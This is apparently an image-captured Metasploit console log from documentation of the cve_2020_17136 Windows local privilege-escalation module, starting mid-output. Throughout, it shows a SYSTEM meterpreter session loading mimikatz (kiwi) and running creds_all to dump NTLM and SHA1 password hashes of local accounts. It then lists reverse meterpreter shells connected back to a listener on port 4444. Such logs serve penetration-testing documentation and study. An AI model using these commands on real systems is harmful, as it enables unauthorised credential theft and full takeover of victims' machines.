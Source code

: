 ```
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-KUO5CML  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-KUO5CML  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-KUO5CML$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-kuo5cml$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)


meterpreter >
Background session 2? [y/N]
msf6 exploit(windows/local/cve_2020_17136) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-KUO5CML\normal @ DESKTOP-KUO5CML  0.0.0.0:0 -> 172.22.152.177:4444 (172.22.152.177)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-KUO5CML     172.22.159.28:4444 -> 172.22.152.177:49968 (172.22.152.177)

msf6 exploit(windows/local/cve_2020_17136) >
```